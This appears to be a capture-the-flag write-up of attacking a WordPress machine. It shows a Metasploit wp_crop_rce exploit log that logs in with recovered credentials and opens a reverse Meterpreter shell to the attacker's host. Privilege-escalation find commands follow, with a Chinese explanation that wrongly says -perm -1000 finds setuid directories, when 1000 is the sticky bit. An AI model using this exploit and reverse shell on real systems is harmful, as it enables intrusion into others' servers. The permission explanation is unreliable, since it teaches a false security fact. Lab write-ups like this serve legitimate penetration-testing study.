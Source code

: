 ```
RHOSTS => 10.10.144.150
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set LHOST 10.18.72.222
LHOST => 10.18.72.222
msf6 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 10.18.72.222:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.144.150
[*] Meterpreter session 1 opened (10.18.72.222:4444 -> 10.10.144.150:36074) at 2023-08-02 22:07:00 -0400
[*] Attempting to clean up files...

meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
```

[cheat sheet Basic Linux Privilege Escalation.txt](https://github.com/rmusser01/Infosec_Reference/blob/master/Draft/Cheat%20sheets%20reference%20pages%20Checklists%20-/Linux/cheat%20sheet%20Basic%20Linux%20Privilege%20Escalation.txt)

```
find / -perm -1000 -type d 2>/dev/null
```

这个命令使用Linux中的`find`命令来查找特定权限的目录，并将结果输出到标准输出（stdout）。让我来解释每个部分：

1. `find`: 这是Linux/Unix系统中的一个强大的查找工具。它用于在指定目录及其子目录中查找文件和目录。

2. `/`: 这是要搜索的起始目录。在这个命令中，它表示从根目录开始搜索，也就是整个文件系统。

3. `-perm -1000`: 这是`find`命令的一个选项，用于指定要搜索的文件或目录的权限。在这里，`-perm`选项用于指定搜索具有特定权限的文件或目录。`-1000`表示以八进制表示法定义的权限值。在八进制表示法中，`1000`对应于权限为"u+sx"，即用户拥有可执行和设置UID权限的文件或目录。设置UID权限允许用户以拥有该文件或目录所有者的权限来执行它。在这里，我们搜索具有这个权限的目录。

4. `-type d`: 这是`find`命令的另一个选项，用于限制搜索结果的类型。在这里，`-type d`表示只搜索目录。

5. `2>/dev/null`: 这部分用于重定向标准错误（stderr）输出。在Linux中，数字2表示标准错误流。`/dev/null`是一个特殊的设备文件，它可以被用作一个空设备，可以将不需要的输出发送到这个设备以丢弃它们。因此，`2>/dev/null`表示将标准错误输出重定向到空设备，这样错误信息就不会显示在终端上。

综上所述，该命令的目的是从整个文件系统中查找拥有权限"u+sx"（设置UID）的目录，并将结果输出到终端，同时忽略任何错误信息。

```
find / -perm -g=s -type f 2>/dev/null
```
